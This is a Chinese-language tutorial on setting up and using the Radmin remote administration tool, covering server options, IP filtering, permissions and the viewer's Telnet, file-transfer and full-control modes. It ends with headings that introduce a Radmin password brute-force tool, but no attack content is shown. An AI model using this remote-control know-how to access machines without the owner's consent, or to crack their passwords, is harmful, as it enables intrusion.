“Incoming connection dialog”主要用来设置用户访问许可，有两个选项供选择：一个是访问超时后自动拒绝访问；一个是超时后自动允许访问。默认是超时后自动禁止访问。在该选项中可以设置 timeout 的默认时间，默认是 10 秒。一般情况下可以修改该时间长一些，比如 100 秒。

日志选项主要用于记录错误日志和访问日志。在日志下方可以根据实际情况选择记录 All errors、No errors、Critical errors、Medium errors 和 Small errors 五种错误之一。选中“Use Event Log”表示记录使用事件日志，选中“Use Logfiles”表示记录用户登录日志。默认日志记录文件为“C:\WINDOWS\system32\rserver30\Radm_log.htm”，用户可以根据实际情况重新设定记录日志文件位置以及名称。日志设置完毕后，当有客户端连接或者服务端启动等信息都会详细记录在 Radm_log.htm 中，如图 4 所示，该文件记录了 Radmin Server 的具体情况。



图 4 日志详细记录情况

#### （2）Miscellaneous 设置

Miscellaneous 设置非常有用，如图 5 所示，需要禁用哪一个功能就选中该功能即可。在禁用连接模式（Disable connection mode）中有 9 个选项：



图 5 设置 Miscellaneous

- Disable Remote Screen Control：禁用远程屏幕控制，也即禁用完全控制。
- Disable Remote Screen View：禁用远程屏幕浏览功能。
- Disable File Transfer：禁用文件传输功能。
- Disable Telnet：禁用 Telnet 功能。
- Disable Redirect：禁用重定向功能，该功能主要用于内网代理或者外网代理，也即通过某一个 Radmin 服务端再访问其他的 Radmin 服务端。
- Disable Shutdown：禁用关闭计算机。
- Disable Text Chat：禁用文本聊天。
- Disable Audio Chat：禁用语音聊天。
- Disable Send Message：禁用发送消息。

另外，Do not resolve IP addresses to hostname 为不将 IP 地址解析为主机名。

#### （3）设置 IP 过滤

IP 过滤顾名思义就是允许指定的 IP 地址或者 IP 地址范围访问。设置该功能后，从网络上能够看到 4899 端口开放，却通过 Radmin 客户端无法连接访问。如图 6 所示，在 IP Filter 中选中“Enable IP Filter”，接着单击“Add”按钮，添加允许的 IP 地址或者 IP 地址范围。对于已经添加的 IP 地址或者范围，如果这些 IP 地址不再使用或者不再允许访问，则可以选中需要移除的 IP 地址单击“Remove”去除即可。

#### （4）语言设置

尽管 Radmin 官方声称支持多国语言，实际测试中发现并非如此，也许是缺少相应的语言文件吧。语言设置很简单，需要使用哪一国的语言就选择那种语言。



图 6 设置 IP 过滤

Additional（附加）选项中可以设置是否显示自己的昵称、每一条消息发送的时间戳、对聊天发起方连接以及断开的确认、允许特殊的命令、记录聊天日志等，如图 9 所示。



图 9 聊天附加选项设置

#### （5）聊天选项设置

在 Radmin 3.2 以及后续版本中加入了聊天功能，主要用于控制端与被控制端之间的交流，如图 7 所示；如果使用聊天功能，则可以设置服务端聊天显示的昵称，在“Nick name”中输入昵称即可，默认是“user”，“User information”可以是用户的简单介绍。在 Radmin 中还可以对聊天的外观进行设置，如图 8 所示，可以设置聊天文字输入样式等。

#### （6）语音聊天设置

语音聊天的设置与聊天的设置类似，如图 10 所示；唯一不同的是需要设置声卡设备。



图 7 聊天选项设置



图 10 语音聊天设置



图 8 设置聊天外观

### 4. 安全许可设置

Radmin 中的 Permissions 设置是最重要的设置之一。在 Radmin 主窗口中单击“Permissions”，打开“Radmin Server Security Mode”窗口；如图 11 所示，该窗口有两种安全设置：一种是“Radmin Security”，另一种是“Windows NT Security”。需要使用哪一种安全设置，选中后再单击“Permissions”按钮，进入详细设置。

#### （1）Radmin Security 安全模式

在 Radmin Security 安全模式中，需要添加用户，如图 12 所示，单击“Add User”按钮添加一个用户后，再进行详细设置。如果是完全访问，则选中“All Access”……即可，否则根据实际需要进行选择。一共有 10 种权限供选择，进行更加细致的设置，也就是可以授予用户特别的权限。



图 11 选择安全模式

- 完全访问（All Access）
- 远程屏幕控制（Remote Screen Control）



图 12 设置 Radmin Security 安全模式

- 远程屏幕浏览（Remote Screen View）
- Telnet 命令执行模式（Telnet）
- 文件传输（File Transfer）
- 重定向（Redirect）
- 聊天（Text Chat）
- 语音聊天（Audio Chat）
- 发送消息（Send Message）
- 关闭计算机（Shutdown）

#### （2）Windows NT Security 设置

选择 Windows NT Security 设置后，即按照 Windows 用户域模式来管理，如图 13 所示，单击“添加”按钮，从 Windows 用户管理器中添加一个用户。然后在“Administrators 权限”中进行设置，使用“Windows NT Security”安全模式可以结合 Windows 文件权限管理进行设置。



图 13 Windows NT Security 设置

## 使用 Radmin

直接打开“Radmin Viewer”，如图 14 所示。该界面是 Radmin 客户端管理主界面，对 Radmin Server 端的所有操作都在这个界面中进行。Radmin Viewer 有一个英文菜单和工具栏，工具栏菜单上面依次为：连接一个地址、新建一个连接、删除连接地址、查看地址属性、屏幕完全控制、屏幕浏览、Telnet、文件传输、关闭计算机、聊天、语音聊天、发送消息、选择图标浏览方式、以文件夹方式浏览、查看在线计算机。在 Radmin Viewer 中是通过 IP 地址来进行管理的。


图 14 Radmin 客户端管理主界面

### 1. 新建连接

在 Radmin Viewer 中单击“Connection”-“New Connection”，或者在工具栏中单击第二个图标，即可在 Radmin 客户端中打开新建连接窗口，如图 15 所示。在“IP address or DNS”中输入 IP 地址或者 DNS 地址；“Name of entry”是在 Radmin Viewer 中显示的名称；如果在新建时不输入该名称，则默认是 IP 地址的名称；在本例中输入的 IP 地址为 192.168.209.130，端口默认是 4899，完成后就会在 Radmin 客户端中以 IP 地址进行显示。


图 15 新建一个连接

### 2. Telnet 连接服务端

在 Radmin Viewer 客户端管理界面中选中刚才新建立的 IP 地址 192.168.209.130，右键单击，在弹出的菜单中选择“Telnet”即可。如果客户端和服务端可以连接，就会立刻出现一个登录窗口，如图 16 所示，要求输入用户名和密码。在此输入先前在 Radmin Server 中建立的用户和密码进行登录。在登录过程中会显示登录的一些信息，如图 17 所示。


图 16 Radmin 安全验证


图 17 登录连接信息

Radmin 有两种安全验证方式，一种是 Radmin 的，另外一种是 Windows 的。当登录验证通过后就出现熟悉的 Telnet 界面，如图 18 所示。该界面跟 DOS 界面比较类似，可以执行各种 DOS 命令，还可以保存显示的内容到本地文件。

### 3. 文件传输

文件传输顾名思义就是文件的上传与下载。文件传输的使用方式跟 Telnet 方式类似，打开后的初始界面如图 19 所示，单击其中的盘符即可像资源管理器一样浏览文件。文件的传输必须是具体的磁盘，通过 Radmin Viewer 可以在本机和服务端上创建、删除、修改文件。


图 18 使用 Telnet


图 19 文件传输

### 4. 远程屏幕监控

远程屏幕监控换句话说就是完全控制服务端计算机。单击工具栏第五个图标或者菜单中“Mode”-“Full Control”即可使用远程屏幕监控。密码验证通过后，如图 20 所示。当使用屏幕控制后，在客户端（Radmin Viewer）中即可对服务端（被控制计算机）进行各种操作，就跟本地操作计算机一样。

### 5. 聊天与发送短消息

相对其强大的控制功能来说，其聊天与发送短消息是一个赠品，方便管理员进行管理与交流。在菜单的 Mode 中选择 Chat 即可，如图 21 所示，跟 QQ 聊天类似。其发送消息就是一个信使，选择需要发送的计算机 IP 地址，在 Mode 中选择“Send Message”，发短消息即可，如图 22 所示。当客户端发送后，服务端很快就能收到短消息。


图 20 远程屏幕监控


图 21 通过 Radmin 进行聊天


图 22 发送和接收短消息

### 6. Intel AMT 技术

在 Radmin 3.2 以及后续版本中提供了 Intel AMT 技术，声称可以冷启动、BIOS 远程控制、网络启动。要使用该功能如图 23 所示，选择需要使用该技术的 IP 地址，选择相应的功能即可。

总而言之，Radmin 是一款不错的远程管理工具，功能强大，速度也不错。通过上面的介绍，即使你是一个菜鸟也可以很快明白如何操作 Radmin，赶快动手在自己的虚拟机中搭建一个环境，玩玩控制与被控制的游戏吧。


图 23 使用 Intel AMT 技术

## Radmin 口令暴力攻击

网上有关 Radmin 口令暴力的工具基本没有，笔者在国外论坛查阅资料时偶然获取一款有关该软件口令破解的工具。

## Radmin 破解文件分析

### 1. 文件组成

